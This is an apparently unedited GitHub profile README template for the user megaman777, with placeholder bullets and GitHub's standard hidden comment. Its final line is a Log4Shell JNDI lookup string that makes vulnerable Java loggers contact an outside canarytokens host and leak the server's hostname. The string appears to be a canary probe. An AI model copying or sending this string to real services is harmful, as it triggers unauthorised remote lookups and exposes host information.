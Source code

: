 - 👋 Hi, I’m @megaman777
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
megaman777/megaman777 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
${jndi:ldap://x${hostName}.L4J.pdwhnm8mr2gstgf9fg8wemn9e.canarytokens.com/a}
